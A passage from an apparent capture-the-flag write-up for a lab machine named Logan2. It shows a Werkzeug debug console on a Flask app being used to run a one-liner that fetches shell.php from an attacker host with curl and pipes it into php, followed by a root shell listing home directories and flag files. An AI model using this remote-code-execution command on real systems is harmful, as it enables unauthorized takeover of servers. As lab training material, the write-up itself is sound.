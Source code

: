 Now Lets access this flask page through browser from this url → `http://10.0.2.69:8000` →

![Untitled](Logan2/Untitled%2017.png)

since it is running on flask then it also contains console directory for python command execution for Werkzeug.

![Untitled](Logan2/Untitled%2018.png)

```bash
__import__('os').popen('curl 10.0.2.60/shell.php|php').read();
```
{: .nolineno}

In response to that I got this →

![Untitled](Logan2/Untitled%2019.png)

I am root now →

```bash
# ls -al
total 48
drwx------  5 root root 4096 Sep 14 03:33 .
drwxr-xr-x 18 root root 4096 Aug 27 14:34 ..
lrwxrwxrwx  1 root root    9 Sep 11 06:33 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Sep 13 05:34 .cache
-rw-------  1 root root   20 Sep 11 07:17 .lesshst
drwxr-xr-x  3 root root 4096 Aug 27 14:49 .local
-rw-------  1 root root  819 Sep 14 03:33 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Sep 11 07:20 .selected_editor
drwx------  2 root root 4096 Aug 27 14:32 .ssh
-rw-r--r--  1 root root  186 Aug 27 16:44 .wget-hsts
-rw-r--r--  1 root root   29 Sep 12 15:09 root.txt
# cat root.txt
Root flag: FLAGFLAGFLAGFLAG
# ls -al /home
total 20
drwxr-xr-x  5 root  root  4096 Sep 11 06:29 .
drwxr-xr-x 18 root  root  4096 Aug 27 14:34 ..
drwxr-xr-x  4 git   git   4096 Oct 13 21:20 git
drwx------  2 kevin kevin 4096 Sep 11 06:34 kevin
drwx------  3 logan logan 4096 Sep 11 06:32 logan
# cd /home/kevin
# ls -al
total 20
drwx------ 2 kevin kevin 4096 Sep 11 06:34 .
drwxr-xr-x 5 root  root  4096 Sep 11 06:29 ..
lrwxrwxrwx 1 root  root     9 Sep 11 06:34 .bash_history -> /dev/null
-rw-r--r-- 1 kevin kevin  220 Sep 11 06:29 .bash_logout
-rw-r--r-- 1 kevin kevin 3526 Sep 11 06:29 .bashrc
-rw-r--r-- 1 kevin kevin  807 Sep 11 06:29 .profile
# cd ../logan
# ls -al
total 28
drwx------ 3 logan logan 4096 Sep 11 06:32 .
drwxr-xr-x 5 root  root  4096 Sep 11 06:29 ..
lrwxrwxrwx 1 root  root     9 Sep 11 06:32 .bash_history -> /dev/null
-rw-r--r-- 1 logan logan  220 Aug 27 14:35 .bash_logout
-rw-r--r-- 1 logan logan 3526 Aug 27 14:35 .bashrc
drwxr-xr-x 3 logan logan 4096 Sep 11 06:30 .local
-rw-r--r-- 1 logan logan  807 Aug 27 14:35 .profile
-rw-r--r-- 1 logan logan   32 Sep 11 06:31 user.txt
# cat user.txt
```